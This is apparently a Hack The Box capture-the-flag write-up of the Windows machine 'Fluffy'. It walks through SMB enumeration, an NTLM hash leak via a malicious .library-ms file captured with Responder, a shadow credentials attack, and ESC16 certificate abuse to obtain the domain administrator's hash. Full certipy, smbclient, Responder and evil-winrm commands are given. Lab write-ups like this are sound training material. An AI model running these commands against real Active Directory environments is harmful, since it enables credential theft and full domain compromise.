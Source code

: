 # Fluffy

```
Difficulty: Easy
Operating System: Windows
Hints: True
```

### Fluffy: Summary of Attack Chain


| Step | User / Access | Technique Used | Result |
| :--- | :--- | :--- | :--- |
| 1 | `j.fleischman` | **SMB Enumeration** | Used `smbmap` to enumerate SMB shares with the initial user credentials. Discovered the `IT` share, which had read and write permissions. |
| 2 | `p.agila` | **CVE-2025-24071 (NTLM Hash Leak)** | Uploaded a malicious `.library-ms` file to the `IT` share. When a user accessed the file, their NTLMv2 hash was leaked and captured using `Responder`. The hash was then cracked with `John the Ripper`, revealing the password `promXXXXXXXXXXX`. This provided access to the user `p.agila`. |
| 3 | `winrm_svc` | **Shadow Credentials** | A Bloodhound analysis showed that `p.agila` had `GenericWrite` permissions on `SERVICE ACCOUNTS` group members like `winrm_svc`. A shadow credential attack was performed on `winrm_svc`, allowing the attacker to get its NT hash and gain a WinRM shell. |
| 4 | `administrator` | **ESC16 Vulnerability** | A vulnerable Certificate Authority was identified. The `userPrincipalName` of the `ca_svc` account was changed to `administrator`, and a certificate was requested for `ca_svc` with the new UPN. This certificate was then used to authenticate as the `administrator` and retrieve the NT hash, which provided root access to the domain controller. |



#### Initial Access & NTLM Hash Leak


The initial foothold began with the provided credentials for the user j.fleischman. A standard Nmap scan of the target machine (Fluffy.htb) revealed several open ports, including SMB (445) and LDAP (389), indicating an Active Directory environment.

To investigate the SMB shares, I used smbmap with the provided credentials:

Bash

```
smbmap -H 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!'
```

The scan showed that the IT share had READ, WRITE permissions. Upon listing the contents of this share with smbclient, several files were found, including a PDF named Upgrade_Notice.pdf. A vulnerability search related to these files led to CVE-2025-24071, an NTLM hash leak vulnerability involving .library-ms files.

I used a public proof-of-concept (PoC) to create a malicious .library-ms file and an associated ZIP file. The exploit was configured to direct hash requests to my attacking machine. I then uploaded these files to the IT share and started Responder to capture any incoming NTLM hashes.

Bash

**Uploading the malicious files**

```
smbclient //10.10.11.69/IT -U j.fleischman
smb: \> put docs.library-ms
smb: \> put exploit.zip
```

**Running Responder on my machine**

```
responder -I tun0 -wvF
```

Soon after, a user on the network accessed the malicious file, and Responder captured an NTLMv2 hash for the user p.agila. The hash was then cracked using john with the rockyou.txt wordlist, revealing the password: promXXXXXXXXXXX.


# Privilege Escalation to winrm_svc

With the new credentials for p.agila, I used Bloodhound to analyze the Active Directory environment for potential privilege escalation paths.

Bash

```
bloodhound-python -u 'p.agila' -p 'promXXXXXXXXXXX' -d fluffy.htb -ns 10.10.11.69 -c All --zip
```

The analysis showed that p.agila was a member of the SERVICE ACCOUNTS group, which had GenericWrite permissions on several service accounts, including winrm_svc. This is a classic Shadow Credentials attack vector.

![p.agila ](Pictures/htb_fluffy_Service_account.png)

Note that p.agilayou can add yourself to servicethe user group

![permission ](Pictures/htb_fluffy_Service_account_Write_Per.png)

![Added ](Pictures/htb_fluffy_addedotserviceacc.png)

Then the group has write permissions servicefor the userCA_SVC

![ca_svc ](Pictures/htb_fluffy_casvblh.png)

Using certipy, I performed a shadow credential attack on the winrm_svc account to get its NTLM hash.

Bash

```
certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -account 'WINRM_SVC' -dc-ip '10.10.11.69'
```

![Winrm Hash](Pictures/htb_fluffy_pagola_winrm_hash.png)

This gave me the NTLM hash for winrm_svc, which I then used with evil-winrm to get a shell on the domain controller.

Bash

```
evil-winrm -i 10.10.11.69 -u 'winrm_svc' -H '<winrm_svc_hash>'
```

![User_Flag](Pictures/htb_fluffy_user_flag.png)

This provided access to the user.txt flag.



**Domain Administrator Compromise via ESC16**


Further enumeration with certipy revealed a critical vulnerability on the Certificate Authority (CA), specifically ESC16, which allows an attacker to exploit a misconfigured CA to impersonate other users.

Bash

```
certipy find -username ca_svc -hashes :<ca_svc_hash> -dc-ip 10.10.11.69 -vulnerable
```

The exploitation of ESC16 involved a series of steps:

I temporarily changed the userPrincipalName (UPN) of the ca_svc account to administrator.

I requested a certificate for ca_svc using the new administrator UPN.

I reverted the ca_svc account's UPN back to its original value.

Finally, I used the forged certificate to authenticate as the administrator and retrieve the domain administrator's NTLM hash.

Here's the sequence of commands:

Bash

**1. Update UPN of ca_svc to administrator**

```
certipy account -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -dc-ip '10.10.11.69' -upn 'administrator' -user 'ca_svc' update
```

![UPN_Update](Pictures/htb_fluffy_ca_svc_admin_perm.png)

**2. Request a certificate as the administrator**

```
certipy req -k -dc-ip '10.10.11.69' -target 'DC01.FLUFFY.HTB' -ca 'fluffy-DC01-CA' -template 'User'
```

![Request_Certificate](Pictures/htb_fluffy_adminpfx.png)

**3. Restore the UPN of ca_svc**

```
certipy account -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -dc-ip '10.10.11.69' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
```

![ca_svc](Pictures/htb_fluffy_casvcNT.png)

**4. Authenticate and get the administrator hash**

```
certipy auth -dc-ip '10.10.11.69' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
```

![Admin_hash](Pictures/htb_fluffy_admin_hash.png)

The final command successfully yielded the NTLM hash for the administrator, which can be used for a full domain compromise.

![Root_Flag](Pictures/htb_fluffy_Root.png)


**Pwned! Fluffy**